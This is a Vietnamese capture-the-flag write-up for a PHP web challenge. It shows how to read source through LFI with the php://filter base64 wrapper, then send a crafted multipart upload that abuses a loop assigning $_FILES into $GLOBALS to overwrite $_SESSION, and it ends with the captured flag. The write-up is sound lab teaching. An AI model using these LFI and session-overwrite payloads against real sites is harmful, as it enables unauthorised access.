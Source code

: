 # Opening
Bài này không hề khó nhưng mọi người phải tinh ý 1 chút.

# Step 1: GET SOURCE
Đầu tiên lấy source của các trang home, upload, GiFt2 bằng LFI kết hợp với php wrapper:
php://filter/convert.base64-encode/resource=xxx

# Step 2: Know the vul
Ban đầu mình nghĩ chắc bài này là upload insecure file tuy nhiên đọc code lại không hề thấy lỗ nào để mà đục. Đọc kỹ hơn nữa mình nhân ra có một đoạn code rất vô lý nằm trong hàm `Upload_Single_File`.
```global $target_file;
	foreach ($_FILES as $key => $value)
	{
		$GLOBALS[$key] = $value;
	}
  ```
Đoạn này dùng để gán giá trị của một phần tử của biến $GLOBAL mà theo đúng cách hoạt động của nó sẽ là `$GLOBAL['filename']='xxx.png'`. Tuy nhiên ở đây giá trị đầu vào không hề được kiểm soát nên ta có thể thay đổi giá trị của những phần tử sẵn có bên trong biến $GLOBAL đặc biệt trong đó có $_SESSION. Thêm nữa tại home.php có đoạn gán session như sau `><?php $_SESSION['name']="children";?>`. Cộng thêm việc đọc hiểu mô tả của đề thì mình chắc chắn giá trị này phải đổi thành Nicolaus

# Step 3: Exploit
Nhớ đoạn code vô lý chứ nó nằm trước đoạn kiểm tra upload file nên dù có upload file thành công hay không cũng không quan trọng. so let's begin:
Để thay đổi được giá trị bên trong $_SESSION thì chúng ta cần một đoạn như này `$GLOBAL['_SESSION']='abcxyz'` vậy nên payload se trông như sau:
```
-----------------------------180251837238646225392010562464
Content-Disposition: form-data; name="target_file"; filename="123"
Content-Type: text/plain

123
-----------------------------180251837238646225392010562464
Content-Disposition: form-data; name="_SESSION"; filename="Nikolaus"
Content-Type: text/plain

Nikolaus
-----------------------------180251837238646225392010562464
Content-Disposition: form-data; name="submit"

Upload
-----------------------------180251837238646225392010562464--
'''
```
và đây là kết quả: 
```
PS C:\Users\hentai> & python c:/Users/hentai/OneDrive/Desktop/CTF/PIS/noelv3/santa3.py
[+] Gift3:ChristCTF{merry_christmas_2020!!!h4d35w!7h10v3} 
PS C:\Users\hentai> 
```
